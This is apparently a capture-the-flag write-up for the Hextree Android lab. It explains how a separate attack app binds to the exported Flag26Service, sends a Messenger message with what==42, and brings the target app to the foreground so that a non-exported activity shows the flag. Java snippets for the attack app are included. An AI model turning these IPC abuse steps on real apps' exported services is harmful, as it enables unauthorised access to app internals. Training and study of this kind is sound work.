 ```yaml
---
title: Exploiting Flag26Service – Android Messenger-Based Service (Hextree CTF)
description: Learn how to exploit a bound Messenger-based service in a CTF Android app to trigger an internal activity and capture the flag.
summary: Exploiting an Android Messenger-based service in a CTF app to capture a flag by triggering internal activity.
date: 2025-06-09
tags:
  - Android
  - IPC
  - Messenger
  - Android CTF
  - Hextree
  - Android Services
  - App Security
read_time: 3 minute read
---
```


# Exploiting Flag26Service – Android Messenger-Based Service (Hextree CTF)

## 🔍 Challenge Overview

We're given a bound `Service` called `Flag26Service`, which exposes a `Messenger` IPC interface using `onBind()`:

```java
@Override
public IBinder onBind(Intent intent) {
    return this.messenger.getBinder();
}
````

The service uses a `Handler` to process incoming messages. When it receives a message with `what == 42`, it triggers this function:

```java
private void success(String str) {
    Intent intent = new Intent(this, Flag26Activity.class);
    intent.putExtra("secret", secret);
    intent.putExtra("what", 42);
    intent.addFlags(268468224);
    intent.putExtra("hideIntent", true);
    startActivity(intent);
}
```

This launches the activity containing the flag, passing the secret and flag trigger values via the `Intent`.

---

## 🚧 The Catch

Even if you successfully bind to the service and send `Message.what == 42`, **`Flag26Activity` is not exported**:

```xml
<activity
    android:name="io.hextree.attacksurface.activities.Flag26Activity"
    android:exported="false"/>
```

This means the activity **cannot be launched** from your external app **unless the target app is already in the foreground or running in the background**.

---

## ✅ Solution Steps

### 1. Create a separate app

This is your attack app.

### 2. Bind to the service

Use `Context.BIND_AUTO_CREATE` to connect to the exported `Flag26Service`.

```java
Intent intent = new Intent();
intent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.services.Flag26Service");
bindService(intent, connection, Context.BIND_AUTO_CREATE);
```

### 3. Send the trigger message

Use a `Messenger` to send a message with `what == 42`.

```java
Message msg = Message.obtain(null, 42);
serviceMessenger.send(msg);
```

### 4. Bring the app to the foreground

Since `Flag26Activity` is not exported, the service **won’t launch it** unless the app is running in the foreground.

✅ **Workaround:**
After pressing the attack button, **manually open the target app** (`io.hextree.attacksurface`) to bring it to the foreground.
This will allow `startActivity(intent)` inside the service to succeed.

---

## 🏁 Flag Retrieval

Once the activity is launched, it checks if the passed `secret` matches the static `Flag26Service.secret`, and shows the flag if so:

```java
if (Flag26Service.secret.equals(stringExtra)) {
    success(this);
}
```

✅ **The flag is displayed inside `Flag26Activity` UI or logged using the internal `LogHelper` class.**

---

Thanks for reading 🙌